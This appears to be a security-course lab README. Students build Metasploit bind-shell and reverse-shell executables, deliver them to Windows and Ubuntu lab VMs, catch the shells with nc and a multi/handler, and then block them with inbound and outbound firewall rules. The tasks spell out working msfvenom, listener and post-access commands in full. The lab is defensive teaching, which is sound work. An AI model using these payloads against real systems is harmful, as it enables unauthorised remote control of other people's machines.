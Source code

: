 # Windows Firewall
## Description
With malware generated by Metasploit, 
- bind shell
- reverse shell

practice attacking Windows without protection.

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Prerequisite!!!
- [Lab01](../lab01/README.md) must be done first if you use a new Windows VM

## Tasks

Task 1: bind shell
---
- 1.1 What is a bind shell?
  - A bind shell listens on the target system, using a TCP or UDP port
  - This is a very simple attack, and very easily stopped by a firewall 
  - The default action of the Windows firewall is to block unexpected incoming packets, so stops this attack
- 1.2 Create a bind shell with msfvenom in Kali Linux VM 🐧, open a terminal
  ```bash
  # 1.2.1. find bind shell options, setup required options
  msfvenom -p windows/shell_bind_tcp --list-options

  # 1.2.2. create a bind shell
  msfvenom -p windows/shell_bind_tcp -f exe > ./bindShell.exe

  # 1.2.3. start a web server, wait for victims to download
  # keep the web server running
  sudo python3 -m http.server  80
  ```
- 1.3 On the Windows server VM 🪟, download and run bindShell.exe
  - open a browser and access http://Kali_IP/bindShell.exe
  - find the IP address of your Kali VM and replace Kali_IP in the URL
  - run bindShell.exe, ignore warnings and run anyway
- 1.4 view the listening process. Run a command prompt as Administrator
  ```cmd
  netstat -bano | more
  :: find bindShell.exe and its port number from the list
  ```
- 1.5 use the bind shell, on the Kali Linux VM 🐧, open another terminal
  ```bash
  # 1.5.1. connect the the bind shell
  nc Windows_IP 4444
  # A "Microsoft Window" banner appears

  :: Now you are in a windows command prompt
  :: 1.5.2. find the login account
  whoami 
  :: 1.5.3. view the network connection you are using
  netstat -an | findstr 4444
  :: don't exit or close this terminal
  ```

- 1.6 Block incoming connections to the bind shell
  - 1.6.1. On the Windows server VM 🪟, turn on Windows firewall from
    - Control Panel->System and Security->Windows Firewall ->Customize Settings
  - 1.6.2. Go back to the the previous Kali terminal with the remote Windows command prompt
    - type and commands such as help, dir, etc. you get no response
    - due the connection to bindShell.exe is blocked by Windows firewall


Task 2: reverse shell
---
- 2.1 What is a reverse shell?
  - A reverse shell originates the connection 
    - from the target server, sending a SYN out 
    - to the attacker's Command & Control server, 
      - which listens for incoming traffic
    - Any computer that allows Web browsing must allow connections to external IP addresses on common ports, such as 80 and 443, 
      - so this attack works even when Windows Firewall is on, in its default state.
- 2.2 Create a reverse shell
  - 2.2.1. on the Kali Linux VM 🐧, open another terminal
    ```bash
    # 1. list required options
    msfvenom -p windows/shell_reverse_tcp --list-options

    # 2. only LHOST is required, set it to be Kali_IP 
    msfvenom -p windows/shell_reverse_tcp LHOST=Kali_IP -f exe > reverseShell.exe

    # 3. start a Command-and-Control (C&C) server
    msfconsole
    use multi/handler
    set PAYLOAD windows/shell_reverse_tcp
    set LHOST 0.0.0.0
    exploit
    ```
  - 2.2.2. Launch the reverse shell on the Windows machine 🪟
    - open a browser, access http://Kali_IP/reverseShell.exe
    - download and run anyway
  - 2.2.3. Go back to the previous Kali Linux VM 🐧 terminal
    - 1. "command shell session" opens, run the following commands
      ```cmd
      # a. view the malware processes 
      tasklist /V /FI "IMAGENAME eq bindShell*"
      tasklist /V /FI "IMAGENAME eq reverseShell*"
      ```


Task 3: blocking outgoing connection with Windows firewall
---
- 3.1 From "Windows Firewall with Advanced Security", make sure Windows firewall is on for the three profiles
  - Domain profile
  - Private profile
  - Public profile
- 3.2 Create a outbound rule to block all TCP outbound connections
- 3.3 Go back to the previous Kali Linux VM 🐧 terminal, now the command shell session 1 is closed or becomes nonresponsive to any further commands
- 3.4 go back to the Windows machine 🪟, restore Windows firewall to its default state



## Extra credit (10%): Reverse shell on Linux

- e1. Setup an Ubuntu Linux machine, connect to the same NAT network as the Kali VM and Windows VM
- e2. Create a reverse shell malware on Kali
  ```bash
  # 1. create a reverse shell malware 
  msfvenom -p linux/x64/shell_reverse_tcp RHOST=Kali_IP -f elf > ./reverseShellLinux
  ```
- e3. Send the malware to Ubuntu by HTTP or FTP
- e4. In the reverse shell on Kali, find the malware connection
  ```bash
  # 1. start C&C
  msfconsole -q
  
  # 2. in msfconsole
  use multi/handler
  set PAYLOAD linux/x64/shell_reverse_tcp
  set LHOST 0.0.0.0

  # 3. after is running on Ubuntu
  exploit

  # 4. loot the Ubuntu victim machine
  whoami
  
  # 5. find the malware connection
  netstat -pant
  ```
- e5. Block outgoing connections with ufw on Ubuntu
  ```bash
  # 1. block outgoing connections with ufw
  sudo ufw default deny outgoing
  sudo ufw enable # go back to Kali, check the C&C

  # 2. turn off firewall
  sudo ufw disable
  ```


# Reference
- [samsclass: 15: Windows Firewall](https://samsclass.info/123/proj10/123p15fire.htm)
- [Malware attack](https://github.com/ufidon/its250/tree/master/labs/lab07)
- [filter in tasklist.exe does not take wildcards?](https://stackoverflow.com/questions/11746079/filter-in-tasklist-exe-does-not-take-wildcards)